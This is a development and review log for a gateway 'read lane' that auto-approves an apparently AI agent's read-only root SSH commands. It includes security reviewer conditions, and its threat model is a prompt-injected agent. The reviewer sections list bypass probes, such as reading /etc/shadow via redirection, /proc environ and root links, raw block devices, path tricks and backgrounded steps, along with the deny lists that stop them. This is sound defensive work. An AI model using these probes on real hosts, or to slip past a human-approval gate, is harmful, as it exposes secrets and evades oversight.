1884 passed, 7 warnings in 371.46s (0:06:11)
```

(1817 before this chunk + 67 F4 tests.)


### Round 2 — fixes for reviewer round 1 (R1–R4, S1)

The design's rule 3 was wrong — the gateway runs **every** command as root, so
`sudo` says nothing about privilege. It is replaced by a closed allowlist on
top of F1, and the spec now says "every step (the gateway runs as root)".

* **R1 — allowlist on top of F1.** `READ_LANE_VERBS` in `core/read_policy.py`
  has two groups. Status verbs that take no file operands: `uptime`, `df`,
  `free`, `ip` (`a`/`addr`/`route`/`link`), `ss`, `ps`, `uname`, `hostname`,
  `lsblk`, `lscpu`, `whoami`, `id`, `date`, `nproc`, `systemctl`
  (`status`/`is-active`/`is-enabled`/`list-units`/`list-timers`), `journalctl`
  (with `-n`, or `--disk-usage`), `docker` (`ps`/`stats --no-stream`/
  `images`), `pct list`/`qm list`, `zpool status|list`, `zfs list`. File
  readers: `cat`, `head`, `tail` (no `-f`), `grep`, `wc`, `ls`, `stat`, `du`,
  and every operand — bare or relative words and `--opt=value` included —
  must be a safe path. Anything else is ineligible even if F1 says `read`.
  A wrapper other than `sudo` (`env`, `ip netns exec`, `timeout`, `runuser`)
  is refused too: it hides part of the command. Tests: the 45-case eligible
  table and `test_f4_every_eligible_verb_is_on_the_allowlist`; every probe
  class is in the ineligible table.
* **R2 — the safe trees apply to every step.** `/var/log/`, `/proc/`, `/sys/`
  and exactly `/etc/os-release`, `/etc/hostname`, `/etc/hosts`,
  `/etc/resolv.conf`; inside `/proc` the `root`, `cwd`, `fd`, `map_files`,
  `mem` and `environ` entries and `kcore`/`kmsg` are refused; all of `/dev/`
  is refused; any glob or brace character and any `..` part is refused on the
  whole token. Tests: block devices, `/proc` links, `cat config.yml`,
  `/srv/app/config.yml`, glob-before-`..`.
* **R3 — flags fail closed.** `READ_HARMLESS_FLAGS` is empty, so every F1
  flag blocks — `repo-config` and `follows` included, and any future flag.
  Tests: `test_f4_any_flag_blocks` plus the `git log` / `tail -f` /
  `journalctl -f` table cases.
* **R4 — no inner targets.** `pct exec`, `qm guest exec` and `docker exec`
  are ineligible. Test: `test_f4_inner_targets_are_ineligible` plus the table
  cases.
* **S1 — line caps.** `journalctl` needs `-n ≤ 1000` (or `--disk-usage`) and
  `tail -n` is capped at 1000, so one auto-run read cannot dump a whole
  journal. Test: `test_f4_journal_and_tail_line_caps`.

Two deliberate narrowings worth the security reviewer's eye: `grep` patterns
are bare operands under R1's "every operand ... including bare words", so only
`grep -e <pattern> <safe-path>` is eligible; and `echo` section markers are
not on the verb list, so agent scripts that echo section headers stay
ineligible.

`bash scripts/verify.sh` (pre-commit green):

```
1951 passed, 7 warnings in 373.87s (0:06:13)
```

(1884 before this round + 67 new/expanded F4 tests; the F4 file has
134 tests.)

### Round 3 — fixes for reviewer round 2 (R5–R8, S2, S3)

* **R5 — recursion only under `/var/log`.** `grep -R` and
  `--dereference-recursive` are refused everywhere (they follow links), and
  `grep -r`/`--recursive`, `ls -R` are allowed only when every operand is
  under `/var/log/`; `grep -d recurse`/`--directories=recurse` is refused.
  `du` recurses implicitly, so its operands may not be `/proc` or `/sys`.
  Table: `grep -R …`, `grep -r … /proc`, `grep -r … /sys`, `ls -R /proc`,
  `du -sh /proc`; eligible adds `grep -r -e error /var/log` and
  `ls -R /var/log`.
* **R6 — no `ps` environment output.** BSD option words (no leading dash)
  containing `e` are refused (`ps e`, `ps eww`, `ps auxe`), as is any
  `environ`/`env` token (`ps -eo pid,environ`, `ps --format=environ`);
  `ps -e`/`-ef` stay eligible. Table cases added.
* **R7 — no endless/interval forms.** `free -s`/`-c`, `zpool status|list`
  with a numeric interval or `-T`, and `ss -E`/`--events` are refused.
  `test_f4_eligible_cases_have_no_endless_form` statically asserts that no
  eligible table case carries one of those forms.
* **R8 — journal sources.** `--file=`, `--directory=`, `--root=`, `--image=`,
  `-m`/`--merge` (and their `--opt=value` spellings) are refused, not only
  `-D`.
* **S2** `head -c`/`tail -c` are capped at 1 MiB (`bytes-cap`), as `-n` is
  capped at 1000.
* **S3** `/sys/firmware` is out of the safe trees (EFI variables can carry
  vendor secrets).

All synthetic (`192.0.2.x`, `/var/log/synthetic-*`, `web01`). Full gate:

```
1986 passed, 7 warnings in 373.06s (0:06:13)
```

(1884 + 102: the F4 file now has 169 tests.)

### Round 4: on-lock

`on` is now hard-locked behind a `meta` key that only a human can set.

* `PUT /api/gateways/{ip}/read-lane` refuses `mode=on` with **409
  `read_lane_on_locked`** unless `meta.read_lane_on_enabled` is the string
  `"1"` (`read_lane_on_enabled()` in `db/gateways.py`). The key is unset by
  default and **no API or UI writes it** — it is set by hand after the
  security sign-off.
* The lock is checked before the 7-day readiness rule, so a gateway that has
  had a week of shadow still cannot be switched on while locked. `shadow` and
  `off` are unaffected.
* `GET /api/gateways` exposes the state as `read_lane_on_enabled`; the
  Gateway table's select shows **"RL on: locked until security sign-off"**
  (disabled) while the key is unset, and the 7-day hint takes over once it is.

**Tests** (`TestOnLock`, 6): refused by default even with `read_lane_ready`
true; shadow/off unaffected; allowed when the key is `"1"` and the window has
passed; still refused when unlocked but shadow is younger than 7 days; no API
attempt can set the key (and the gateway list reports the lock). The existing
7-day test now unlocks the key first, since the lock is its own gate.

The lock is the second gate on `on`: the security sign-off above approved the
lane on conditions SC1–SC8, and the operator sets `read_lane_on_enabled` by
hand only once those are addressed and the lane is verified in shadow.

`bash scripts/verify.sh`: `1992 passed, 7 warnings in 391.24s (0:06:31)`.

### Round 5: security conditions

The sign-off approved F4 on conditions SC1–SC8. All eight are in.

**SC1–SC3 are the diff the security chat should look at** (`4b3a121`, files
`dashboard/core/read_policy.py` and `dashboard/core/cmd_parse.py`); SC4–SC7 are
in the same commit, and SC8's tests are in `c470d6e`.

* **SC1 — options are allowlisted per verb and subcommand.** `OPTION_SPECS` in
  `core/read_policy.py` is the whole list, keyed by `(verb, subcommand)`.
  Spellings are exact (`--huma` is not `--human-readable`), a short cluster is
  allowed only when every letter is on that verb's list (`ss -tlnp` yes,
  `ss -tlnpq` no), and whether an option takes a value is decided per verb
  (`grep -m` is a count, `head -m` is not an option). `--` and a lone `-` are
  refused. No status option names a file, a host, a machine, a context or a
  format template: `docker -H`/`--context`/`--format`, `systemctl -H`,
  `ps -o`, `stat -c`, `date +%s` and `journalctl -o` are all out.
* **SC2 — every other word is a file.** `_scan_options` returns the operands
  after the listed options and their values, and each must pass `_path_ok`.
  grep's first non-option word is its pattern, and only when `-e` is absent.
  Consequence: a status verb's bare name is an operand, so
  `systemctl status nginx` is no longer eligible while bare `systemctl status`
  is — see the open question.
* **SC3 — no input redirection.** F1 now flags `input-redirect` and records
  `input_redirects: [{op, target}]` on the step; `is_read_ssh` refuses either.
  `cat /proc/cpuinfo < /etc/shadow` used to look like a plain read because the
  step text dropped the redirection.
* **SC4 — the policy checks subcommands.** `SUBCOMMANDS`/`ACTIONS` decide
  `systemctl`, `docker`, `pct`, `qm`, `zpool`, `zfs` and `ip` (including the
  action), so `zpool destroy`, `ip addr flush` and `systemctl list-unit-files`
  are refused even if F1 ever called them reads.
* **SC5 — bounded output.** `_cap_lines` (≤ 1000) and `_cap_bytes` (≤ 1 MiB)
  run for every spelling (`-n`, `--lines=`, `-n5`, `-100`); `+N` is refused
  because it means "from line N" (uncapped); `head` has the same cap as
  `tail`. Logs under `/var/log` leave the lane unless read through `head`,
  `tail`, or `grep` with `-m` ≤ 1000 — `cat` and `wc` stay for `/proc`,
  `/sys` and the four `/etc` files.
* **SC6 — tighter safe trees.** `PROC_DENY_PARTS` adds `exe` and `pagemap`,
  `kpage*` names are refused, and `/sys/kernel/debug`, `/sys/kernel/tracing`,
  `/sys/fs/bpf`, `/var/log/installer` and the cloud-init logs are out.
* **SC7 — a "needs a human" verdict wins.** `eligible()` acts only on a plain
  `jit` (no `detail_type`) or `auto_approved`; `self_protection_jit`,
  `shell_meta` and any future action are refused before the read rules run.
* **SC8 — tests.** `TestSecurityConditions` covers each class above, with
  synthetic paths and the `192.0.2.x` range, and the generated
  `test_f4_sc8_every_option_in_every_eligible_case_is_allowlisted` walks every
  eligible case and asserts each option spelling or cluster letter is in that
  verb's spec.

**Also from the sign-off**

* The duplicate `evaluate_policy_verdict` import is gone; it went with the
  `feature-roadmap` merge in `1d25807`.
* `receive_request` treats a stored `on` as shadow while
  `read_lane_on_enabled` is unset (`0861afe`), covered by
  `test_f4_stored_on_is_shadow_while_the_key_is_unset`.
* The sign-off's accepted residual risks are now in the README's
  "Security & threat model" section, next to the other honest limitations.

**Tests.** `tests/test_f4_read_lane.py` has 260 tests (169 before this round);
the F18 read-lane tests no longer skip (24 pass in that file). `bash
scripts/verify.sh`: `2120 passed, 7 warnings in 390.00s (0:06:29)`.

**Open questions**

1. **SC2 against a status verb's unit name.** SC2 says every word that is not
   a listed option or its value is a file operand and must pass the safe-tree
   check. Taken literally that makes `systemctl status nginx`,
   `systemctl is-active nginx`, `docker inspect web01` and
   `ip addr show dev eth0` ineligible, while bare `systemctl status` and
   `systemctl list-units --type=service` stay. The round-3 probe list treats
   `systemctl status`/`list-units` as everyday reads, and a unit name is a
   name, not a file — but the condition as written has no exception for it. I
   implemented it literally (fail closed) and moved those cases to the
   ineligible table. If a bare-name exception is wanted, it needs a scope
   (which verbs, which characters) and a line in §2.6a; otherwise no change.

### Round 6: fixes for reviewer round 5

* **R1 — the path is compared with its normalised form.** `_path_ok` refuses
  any path where `posixpath.normpath(token)` differs from the token (one
  trailing slash allowed), before any prefix check, so `/sys/kernel//debug`
  and `/sys/./kernel/debug` cannot get past the SC6 prefix denials. The
  explicit `..` refusal stays. `test_f4_r1_normalised_paths_cannot_slip_past_a_prefix_denial`
  covers every `SYS_DENY_PREFIXES`/`LOG_DENY_PREFIXES` entry with both
  spellings across `cat`, `head`, `tail`, `grep -m`, `ls` and `stat`;
  `test_f4_r1_a_trailing_slash_still_reads` keeps `/var/log/` legal.
* **R2 — recursion is out of the lane.** `-r`/`--recursive` are removed from
  the `grep` spec (and `r` from its cluster letters), so a recursive log grep
  is refused as an unknown option instead of walking into `/var/log/installer`
  and the cloud-init logs; `ls -R` and `du` still list names. This also closes
  the per-file `-m` bound. `test_f4_r2_recursive_grep_is_not_in_the_lane`
  tries `/var/log`, `/var/log/`, `//var/log` and `/var/log/./` with both
  spellings.
* **R3 — context options cannot undo the `-m` cap.** For a `/var/log`
  operand, `_grep_log_lines` requires `m × (1 + max(A + B, 2C)) ≤ 1000`;
  `-A`/`-B`/`-C` are still capped at 1000 individually.
  `test_f4_r3_grep_context_cannot_undo_the_cap` checks at the limit
  (`-m 500 -A 1`, `-m 300 -C 1`), over it (`-m 500 -A 2`, `-m 1000 -A 1000`)
  and that context outside `/var/log` is unaffected.
* **R4 — `head`/`tail` lose `-z`.** `-z`/`--zero-terminated` (and the `z`
  cluster letter) are gone from both specs, so they cannot turn a text log's
  line cap into a whole-file dump. `test_f4_r4_head_and_tail_have_no_zero_terminated`
  covers the short, long and clustered spellings for both verbs.
* **S2 — `zpool`'s cluster letters match its flags** (`vxHpLPg`), so `-g`
  works and `-G` is refused; **S4 — `grep -P`/`--perl-regexp` is out** of the
  lane until F19 adds a time bound. `test_f4_s2_*` and `test_f4_s4_*`.
* **Q1 — SC7 is unchanged in this round, as the task asked.** The security
  answer ("yes, allow `shell_meta`", in the Security reviewer sign-off below)
  landed while this round was being pushed, so the behaviour here is still the
  round-5 one: `shell_meta` is not a plain `jit`. The end-to-end test is
  `test_f4_sc7_chained_read_is_not_lane_eligible_end_to_end`: with the lane in
  shadow, `uptime && whoami` through `POST /api/request` stays pending with no
  `read-lane-shadow` reason, and with the lane `on` (and the lock unlocked)
  `uptime || whoami` is not auto-approved. The next round flips it, together
  with the security round-2 items below.
* **S1 and S3 are not in this round.** S1 (an operand-class model so status
  verbs refuse every operand) is a policy-shape change the reviewer marked
  optional and it needs a spec line for which verbs take paths; S3 (a maximum
  number of log operands) is bounded by the 8 kB command cap today. Both are
  written down here so they are not lost.

**Shared `core/read_policy.py` (merge prep).** F9 and F14 each carry only
`is_read_integration_call` plus the `read_only` guard, so their copies combine
cleanly with this file's SSH half. This branch's wrapper now has the same
guard — it was a bare `_read_only_refusal` wrapper, which would have called a
curated write tool a read — and `test_f4_a_curated_write_tool_is_not_a_read`
locks it in. At merge, keep this file's SSH rules and take F9's guarded
integration wrapper, as F9's Reviewer notes say.

**Security round 2 landed after this round's push.** It confirms R1-R4 (and R2
as implemented: `-r` is gone), and adds work that is deliberately **not** in
this round, because it is a new security condition, not a feature-review R
item:

* **SC9 (must):** no eligible word may carry a shell expansion (`$`,
  backtick, `{`, `}`, `*`, `?`, `[`, `]`, a leading `~`, a backslash) - path
  operands, option values and patterns alike - and a bare assignment
  statement must be refused. This is the one that must ship before
  `shell_meta` is allowed, hence the Q1 order: SC9 and Q1 in the same round.
* **R5 (add, must):** refuse the journal directory and `lastlog`/`wtmp`/
  `btmp`/`faillog` under `/var/log`, and refuse `grep -a`/`--text`.
* **Q1:** allow `shell_meta` (and refuse a `&`-backgrounded step); **Q2:** the
  narrow `systemctl status|is-active|is-enabled` name exception; **Q3:** only
  a bare `sudo` (F1 must record that the wrapper had no options).

Also confirmed there: unlocking `on` waits for the gateway to stop logging
session signatures (the F12 note), which is security Chunk 7 work.

`bash scripts/verify.sh`: `2134 passed, 7 warnings in 390.21s (0:06:30)` (round 6, after the read-policy guard and its test).

### Round 7: security round 2 (SC9, R5, Q1-Q3)

**Commits for the security chat: SC9 is `51f2e40` + `0ed276c`; Q1 is
`51f2e40` + `0ed276c`; Q3 is `51f2e40` + `0ed276c`.** (`51f2e40` is F1's half —
bare assignments, the background marker, the `sudo(options)` label; `0ed276c`
is the lane's half.)

* **SC9 — the shell cannot expand a word the lane approved.** `_step_ok`
  checks the **raw** step words (from the display text, before
  `shlex.split` strips F1's re-quoting) and refuses `$`, a backtick, `{`,
  `}`, `*`, `?`, `[`, `]`, a backslash anywhere and a leading `~`. It covers
  path operands, option values and both grep pattern spellings, and quoted
  words are included because F1 does not record whether a word was quoted.
  A bare `NAME=value` statement now emits an `unknown` step ("bare variable
  assignment") instead of vanishing, so the lane refuses it (and F1's
  `assignment-then-echo` fixture expects the extra step). Tests
  (`TestRoundSeven`): every character in a path, in a `grep -e` pattern and
  in an option value; the first-word pattern form; a quoted backslash; a
  leading `~`; the bare assignment (`FOO=1`) and the prefixed form (still
  refused, fail closed).
* **Recursion — every spelling is out of the lane.** `-r`, `-R`,
  `--recursive`, `--dereference-recursive`, `-ir`, `-ri`, `-rn`,
  `-d recurse` and `--directories=recurse` are unknown options, so each is
  refused (with `/var/log` and `/var/log/` as the operand). This replaces
  round 6's R2 with the simpler rule the security reviewer named; `ls -R` and
  `du` still list names.
* **R5 — binary logs.** `head`, `tail` and `grep` refuse the journal tree
  (`/var/log/journal` and below) and the login-record files (`lastlog`,
  `wtmp`, `btmp`, `faillog`, including `wtmp.1`-style rotations), because a
  file with few newlines defeats the line cap. `ls`/`stat` metadata stays
  allowed, and an ordinary log still reads. `grep -a`/`--text` are removed
  from the spec (so they are unknown options) and `--binary-files=text` was
  never listed; all are refused.
* **Q1 — chains and pipes are eligible; background is not.** `read_lane.eligible`
  now accepts `auto_approved`, a `jit` with no `detail_type`, **or a `jit`
  with `shell_meta`**, because `shell_meta` only says the gateway cannot vouch
  for the literal string and the lane parses every step itself (SC9 and the
  rest still apply to those steps). A step marked `background` by F1 (the
  statement before a `&`, including a trailing `cmd &`) is refused, since it
  can outlive the session. The end-to-end test is flipped:
  `test_f4_sc7_chained_read_is_lane_eligible_end_to_end` — in shadow,
  `uptime && whoami` through `POST /api/request` now carries
  `read-lane-shadow`; with the lane `on` it auto-approves; the verdict is
  asserted to be `shell_meta`.
* **Q2 — unit names for the three reviewed subcommands.** `systemctl
  status`, `is-active` and `is-enabled` take up to 8 operands, each matching
  `[A-Za-z0-9][A-Za-z0-9@_.:-]{0,63}` (first character a letter or digit, no
  `/`, no glob, no backslash). A path-shaped operand, a ninth name, a
  65-character name and an escaped name all stay with a human; other
  subcommands still refuse every operand. The `-n` cap on `status` is
  unchanged.
* **Q3 — bare `sudo` only.** `_unwrap` labels only the bare form `sudo`; any
  option or assignment gets `sudo(options)`, which the lane refuses through
  its existing `context != ['sudo']` rule. Tests cover `-E`, `-u root`, `-i`
  and `--`, and assert F1's contexts directly.
* **Merge integration.** The branch now merges `origin/feature-roadmap`
  (F8, F9, F14). `core/read_policy.py` keeps F4's full module (SSH rules and
  the guarded integration wrapper) and takes F9's docstring line about the
  freeze. F8's generated statistics-filter scan exposed F4's read-lane report
  queries; they now skip excluded rows like the other statistics, so the scan
  passes on the merged tree.

`bash scripts/verify.sh`: `2236 passed, 7 warnings in 419.39s (0:06:59)`.

### Round 8: security round 3 (SC10, SC11)

The final sign-off approved the lane on two small conditions; both are in, and
the feature reviewer checks them (no further security pass).

* **SC10 — loops and grouping are refused.** F1 now flags any command that
  contains a loop (`for`, `select`, `while`, `until`), a conditional (`if`,
  `case`), a function definition (`function` or `name()`), a brace group or a
  subshell with `compound`. The check runs on the **parsed atoms** in
  `_parse_text`, not on the raw text, so a keyword at a command position is
  caught while a keyword used as an argument (`grep for …`) is not; `{`/`}`
  and bare `(`/`)` atoms flag grouping, and `$( )`/`<( )` were already folded
  into word atoms. Every flag blocks the lane, so these commands are
  ineligible; plain chains (`uptime && df -h`, `uptime; free -h`,
  `uptime || whoami`) stay eligible. Tests (`TestRoundEight`): each construct,
  including a `while` whose condition and body are both eligible reads, a
  backgrounded read inside braces and inside parentheses, the plain chains,
  and `grep for …` staying clean. The four `loops.txt` fixtures now expect
  `flags=compound`.
* **SC11 — dated login-record rotations.** `_binary_log` matches a plain name,
  a dotted rotation (`wtmp.1`) and now a dated one (`btmp-20260101`, with or
  without `.gz`) for `lastlog`, `wtmp`, `btmp` and `faillog`, so `head`,
  `tail` and `grep` refuse all of them. Tests for each of the four names in
  both forms across the three verbs, plus the ordinary-log and metadata
  checks already in R5.

Both conditions are in commit **`9f06cb6`** (the F1 atom scan and its
fixtures, the `_binary_log` change and the tests).

`bash scripts/verify.sh`: `2243 passed, 7 warnings in 419.62s (0:06:59)`.

### Reviewer notes

**Round 1 (2026-11-08): changes requested. Not ready for the security
reviewer yet.** The structure is right. One notion of "read" lives in
`core/read_policy.py`, `read_lane.py` holds no rules of its own, and the hook
order is correct: after F3 and the session override, after freeze and the
encoded-payload block. Zero-Trust and freeze win, `on` is server-gated on
7 days of shadow, and the default is `off`. F1 also stood up well to a probe
set run in a scratch dir with synthetic commands. It refuses environment
dumps, `curl`/`wget`, `awk system()`, `sed e`/`w`, `find -exec`/`-delete`,
`xargs`, `dd`, `less`, `tar -c`, `docker inspect` and `kubectl get secret`.

The core premise of the spec's design rule 3 is wrong, and that is the
planner's mistake, not the implementer's. **The gateway runs every command as
root** (the key is in `/root/.ssh/authorized_keys`). "Elevated" (a `sudo`
prefix) therefore says nothing about privilege, and a plain `cat` reaches
everything. With a denylist (`sensitive-path`) as the only guard, these were
**eligible** in the probe:

* any credential-bearing file whose name F1 doesn't know (shell history, an
  app's `config.yml`, a relative `cat config.yml`)
* raw block devices (`head -c … /dev/sdX`)
* `/proc/<pid>/root/…`, `/proc/<pid>/cwd/…` (links into the real filesystem)
  and `/proc/kcore`
* a glob ahead of `..` (`/var/log/*/../../…`): `_elevated_path_allowed` cuts
  the token at `*` before it looks for `..`
* `systemctl show`/`systemctl cat` (they print `Environment=`) and
  `crontab -l`
* `git … log` with `repo-config` set, and `tail -f`/`follows` (never ends):
  F1 sets those flags, but they are not in `READ_BLOCKING_FLAGS`
* `sleep 100000` and `cat /dev/zero`

*Must fix (replaces design rule 3):*

* **R1 Allowlist on top of F1.** Add `READ_LANE_VERBS` to `read_policy.py`,
  a reviewed list of what may auto-run, in two groups:
  1. **Status verbs that take no file operands**: `uptime`, `df`, `free`,
     `ip` (`a`/`addr`/`route`/`link`), `ss`, `ps`, `uname`, `hostname`,
     `lsblk`, `lscpu`, `whoami`, `id`, `date`, `nproc`, `systemctl`
     (`status`/`is-active`/`is-enabled`/`list-units`/`list-timers` only),
     `journalctl` (no `-f`), `docker` (`ps`/`stats --no-stream`/`images`),
     `pct list`/`qm list`, `zpool status`/`list`, `zfs list`.
  2. **File readers** (`cat`, `head`, `tail` without `-f`, `grep`, `wc`,
     `ls`, `stat`, `du`): eligible only when **every** operand, including
     bare and relative words and `--opt=/path` values, is inside the safe
     trees.

  Anything not on the list is ineligible even if F1 says `read`. The list
  is in code and reviewed; it is not an operator setting.
* **R2 Safe trees, for every step.** Apply the path check whether or not the
  step is elevated, because every step is elevated.
  * **Allowed:** `/var/log/`, `/proc/` and `/sys/`, plus exactly
    `/etc/os-release`, `/etc/hostname`, `/etc/hosts` and `/etc/resolv.conf`.
  * **Refused inside `/proc`:** `*/root`, `*/cwd`, `*/fd`, `*/map_files`,
    `*/mem`, `*/environ`, `kcore`, `kmsg`.
  * **Refused anywhere:** `/dev/`.
  * **Refused shapes:** any glob or brace character (`*?[]{}`) in a path
    operand, and any `..` component, checked on the whole token.
* **R3 Flags fail closed.** Any F1 flag blocks unless it is on an explicit
  harmless list, which starts empty. `repo-config` and `follows` then block
  automatically, and so will any flag F1 adds later.
* **R4 No inner targets.** A command with an inner target (`pct exec`,
  `qm guest exec`, `docker exec`) is ineligible. The lane is opted in per
  gateway, and the guest never opted in.
* **Tests:** add every probe class above to the ineligible table, with
  synthetic paths and the IP range `192.0.2.x`. Also add a generated test:
  every eligible case's first verb is in `READ_LANE_VERBS`. Update the
  spec's design rule 3 to say "every step (the gateway runs as root)".

*Should fix:*

* **S1** Cap `journalctl` and `tail` at `-n ≤ 1000` (or require `-n`), so one
  auto-run read cannot dump a whole journal.

Once R1–R4 are in, F4 goes to the security reviewer (§ 2.6a). They asked for
a closer look because this lane runs with no human at all.

**Round 2 (2026-11-08): nearly there; small changes requested.** R1–R4 and S1
are in, and every round-1 probe is now ineligible. A second probe set ran
against the allowlisted verbs, with synthetic commands in a scratch dir. It
confirmed that every `ip`/`date`/`hostname`/`journalctl` write, `ss -K`,
`grep -f`/`--exclude-from`, `/proc/*/task/*/environ` and the
`/proc/self/root|cwd` links are refused. Five gaps remain eligible:

*Must fix:*

* **R5 Recursive grep under `/proc` and `/sys`.**
  * `grep -R` follows `/proc/<pid>/root` into the whole filesystem.
  * `grep -r` reads every `/proc/<pid>/environ` as a regular file, which
    leaks environment secrets.

  Allow `-r`/`-R`/`--recursive` (and `-d recurse`) only when every operand is
  under `/var/log/`, and use `-r` only (refuse `-R` everywhere, because it
  follows links). Apply the same rule to `ls -R` and `du` under `/proc`;
  names only are acceptable, but keep them to `/var/log` for one simple
  rule.
* **R6 `ps` environment output.** A BSD option word containing `e` (`ps e`,
  `ps eww`, `ps auxe`) or `--env`/`-O environ` prints every process's
  environment. Refuse BSD option clusters containing `e` and any
  `-o`/`-O`/`--format` value naming `environ`/`env`. `ps -e`/`-ef` (UNIX
  "all processes") stay eligible.
* **R7 Endless or interval forms.** These never return:
  * `free -s N` and `free -c N`
  * `zpool status|list` with a trailing interval or count, or `-T`
  * `ss -E`/`--events`

  Refuse them. Add a generated test that every eligible table case finishes
  under the sandbox's 2 s limit (or a static assertion per verb, if running
  them is impractical).
* **R8 Other journal sources.** `journalctl --file=`, `--directory=`,
  `--root=`, `--image=` and `-m`/`--merge` read journals outside the
  default; only `-D` is refused today. Refuse the whole set.

*Should fix:*

* **S2** Cap `head -c`/`tail -c` at 1 MiB, as `-n` is capped at 1000.
* **S3** Drop `/sys/firmware/` from the safe trees (EFI variables can carry
  vendor secrets).

*For the security reviewer (no change asked):*

* `ps aux` and `docker ps --no-trunc` show full command lines, which may
  contain secrets passed as arguments. I left them eligible as everyday
  reads.
* The `grep -e` only rule and the absence of `echo` are deliberate
  narrowings. Both are acceptable.

After R5–R8 (plus S2 and S3), F4 goes to the security reviewer.

**Round 3 (2026-11-08): approved by the feature reviewer; waiting on security
sign-off (§ 2.6a).** R5–R8, S2 and S3 are in. I re-ran all four probe sets,
about 130 synthetic commands in a scratch dir. The only eligible commands left
are everyday status reads and log reads under `/var/log`:

* `uptime`, `df`, `free`, `ip a`, `ss -tlnp`, `ps aux`/`-ef`
* `systemctl status`/`list-units`, `journalctl -n ≤1000`
* `docker ps`/`stats --no-stream`, `zpool status`, `lsblk`, `uname`
* `cat`/`grep -e`/`ls -R`/`du` under `/var/log`, and `stat` of the four
  `/etc` files

Pipelines into `grep` without an operand are ineligible. That is narrow but
safe.

**Do not merge until the security reviewer signs off below.**

#### Security reviewer sign-off

**2026-11-08: approved on conditions (security chat, reviewed at `7666adc`).**
This was a read-only design and code review of `core/read_policy.py`,
`core/read_lane.py`, the F4 hook in `receive_request`, the read-lane
functions in `db/gateways.py`, and the parts of F1 (`cmd_parse.py`,
`cmd_rules.py`) that the lane relies on. Nothing was run, because the feature
reviewer had already done the adversarial testing. Threat model: the caller
is an agent that may be prompt-injected, every command runs as root, and in
`on` no human sees the command before it runs.

**What holds:**

1. **Hook position.** The lane runs after the freeze check, the
   encoded-payload block, F3 plans and the session override, and before the
   host override. Freeze and Zero-Trust are checked before the lane and again
   inside `eligible()`. The gateway enforces the hard block and the
   blocklists before a request reaches the dashboard, and the lane checks
   the verdict a second time. The lane is never the first thing to say yes.
2. **Default, gate and audit.** The column defaults to `off`, and any unknown
   value reads back as `off`. The server refuses `on` unless the gateway has
   7 days in shadow, so the UI alone cannot turn it on. Entering shadow
   starts the clock and leaving it clears the clock. Every mode change is
   audited (`read_lane_<mode>`), and so is every shadow tag
   (`jit_read_lane_shadow`) and every auto-approval
   (`jit_read_lane_approved`). Auto-approved rows carry `reason="read-lane"`
   and stay attributable.
3. **One notion of "read".** `read_lane.py` holds gateway-state, size and
   verdict checks only, and it gets its read decision from
   `read_policy.is_read_ssh`.
4. **The outer structure fails closed.** An incomplete breakdown, any F1
   flag (the harmless list is empty), an inner target, a wrapper other than
   `sudo`, a step that is not `read` and a verb that is not on
   `READ_LANE_VERBS` are all refused. Substitution steps carry a `subst`
   context and are refused. F1 re-quotes any word that holds a shell-special
   character (`$`, quotes, backslash, `~`, globs), so such a word no longer
   starts with `/` and fails the path check. Variable and quoting tricks in
   paths therefore fail closed.
5. **Path checks apply to every step.** Elevation plays no part in the path
   check.

**What does not hold yet:** the verb list fails closed, but the options
*inside* each verb do not. Options are allowed unless they are on a short
deny list, matched by exact spelling. Several gaps follow from that. Some of
them let a "read" write a file as root or read any file:

* Some allowed status verbs have options that write a file, read an arbitrary
  file and echo it back in an error message, set the clock or set the
  hostname. Neither F1 nor `read_policy` knows about these options. The
  affected verbs are `journalctl`, `ss`, `date` and `hostname`.
* Long options can be abbreviated (the tools use getopt), and short options
  can be clustered. Both slip past exact-match deny lists. This affects the
  follow, interval, journal-source and clock-set checks.
* `systemctl` and `docker` take a "run against another host or container"
  option that the subcommand check does not see. That breaks R4: the other
  host never opted in.
* `_VALUE_FLAGS` is one list shared by every verb. An option that takes no
  value for *this* verb can therefore hide the next real file from the path
  check. The `grep` recursion check has the same hole.
* `grep` treats every word starting with `.` or `^` as a pattern and skips
  it. Relative dot-files in root's home are then read without a path check,
  and most of them are not on F1's sensitive-name list.
* F1 drops input redirections from the step text, so `read_policy` cannot
  see them. A lone `-` (standard input) is skipped as a flag. Together they
  let a file reader take any file as standard input. The same gap lets a
  command open a FIFO or a bash network pseudo-path.
* The `zpool` branch never checks the subcommand. Today F1 covers it, but
  the policy should not depend on that.
* The self-protection "must go to a human" verdict (`self_protection_jit`)
  is not refused. Only `blocked` and `fatal` are.
* Output is not bounded. `cat` has no cap, `head -n` has no cap, the tail
  cap misses the attached, `--lines=` and "from line N" forms, `journalctl`
  has an option that ignores `-n`, and `systemctl status` takes its own
  line count. The gateway has no execution timeout or output cap, so the
  parser is the only limit.

**Conditions (all before merge):**

* **SC1: options are allowlisted per verb.** Each verb (and each subcommand)
  may use only the options listed for it in `read_policy.py`. Any other
  option makes the command ineligible, and that includes abbreviations and
  unknown spellings. Short-option clusters are allowed only if every letter
  is on the list. Whether an option takes a value is decided per verb. There
  is no shared list. `--` and a lone `-` are refused. No status verb may take
  an option that names a file, a host, a machine, a context or a format
  template.
* **SC2: every other word is a file and is path-checked.** A word that is
  neither a listed option nor that option's value counts as a file operand
  and must pass the safe-tree check. The single exception is `grep`'s
  pattern: the first such word, and only when no `-e` is given.
* **SC3: no input redirection.** F1 must pass each step's redirections
  through to the breakdown, or keep them in the step text. A step with any
  input redirection, here-string or heredoc is ineligible.
* **SC4: the policy checks subcommands itself.** Every status verb with
  subcommands has its subcommand (and for `ip`, the action) checked in
  `read_policy.py`, so the policy does not rely on F1 alone. This includes
  `zpool`.
* **SC5: every eligible command has bounded output and finishes.** Line and
  byte caps apply to every spelling of the option, and "from line N" counts
  as uncapped. `head` gets the same cap as `tail`. Log files under
  `/var/log` are read only through `head`, `tail` or `grep` with a cap
  (`grep -m` ≤ 1000). `cat` stays for `/proc`, `/sys` and the four `/etc`
  files. Any option that undoes a line cap is refused.
* **SC6: tighten the safe trees.** Also refuse `/proc/*/exe` (a link into
  the real filesystem), `/proc/*/pagemap` and `/proc/kpage*` (huge), and
  `/sys/kernel/debug`, `/sys/kernel/tracing` and `/sys/fs/bpf` (some files
  block forever, others dump kernel data). Also refuse
  `/var/log/installer/` and the cloud-init logs, which can hold
  install-time password hashes and user-data.
* **SC7: any "needs a human" verdict wins.** The lane acts only when the
  policy verdict is plain `jit` or `auto_approved`. `self_protection_jit`
  and anything added later are refused.
* **SC8: tests.** Add each class above to the ineligible table, using
  synthetic paths and the `192.0.2.x` range, with no live data. Add a
  generated test that every option in every eligible case is on that
  verb's list.

